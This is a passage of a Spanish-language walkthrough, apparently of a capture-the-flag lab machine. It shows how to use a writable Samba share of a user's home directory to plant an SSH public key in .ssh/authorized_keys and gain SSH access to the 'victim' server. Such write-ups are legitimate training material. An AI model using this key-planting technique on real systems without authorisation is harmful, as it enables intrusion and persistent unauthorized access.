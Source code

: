 Una vez dentro si listamos lo que hay.

```
.                                   D        0  Mon Aug 19 13:26:02 2024
  ..                                  D        0  Mon Aug 19 13:26:02 2024
  .cache                             DH        0  Mon Aug 19 12:40:39 2024
  .bash_logout                        H      220  Mon Aug 19 12:18:51 2024
  .profile                            H      807  Mon Aug 19 12:18:51 2024
  user.txt                            N       33  Mon Aug 19 12:20:25 2024
  .bash_history                       H        5  Mon Aug 19 13:26:02 2024
  .bashrc                             H     3771  Mon Aug 19 12:18:51 2024
```

Veremos que `samba` esta compartiendo de forma local la carpeta del usuario `macarena` en el servidor victima, pero no podremos salirnos de esta carpeta.

Lo que si podemos hacer es crear y cargar carpetas y archivos, por o que haremos lo siguiente.

Crearemos la carpeta `.ssh/` y dentro de ella cargaremos nuestra `id_rsa.pub` de nuestro host a parte de crear un archivo `authorized_keys` que contenga nuestro `id_rsa.pub` para podernos conectar desde el ssh proporcionando nuestra `id_rsa` de nuestro host.

```shell
mkdir .ssh
```

Si no tenemos una clave publica de nuestro usuario en nuestro host, la crearemos de la siguiente forma.

```shell
ssh-keygen -t rsa -b 4096
```

Copiaremos nuestra `id_rsa.pub` a nuestro directorio actual.

```shell
cp ~/.ssh/id_rsa.pub .
```

Despues dentro de `samba` cargaremos nuestro archivo `id_rsa.pub` de nuestro host dentro del `.ssh/`.

```shell
cd .ssh/
put id_rsa.pub
```

Ahora en nuestro host copiaremos el `id_rsa.pub` y lo pasaremos a un archivo que crearemos llamado `authorized_keys`.

```shell
cat id_rsa.pub > authorized_keys
```

Volviendo a `samba` cargaremos el archivo `authorized_keys` de la siguiente forma.

```shell
put authorized_keys
```

Y si listamos, tendremos que ver lo siguiente.
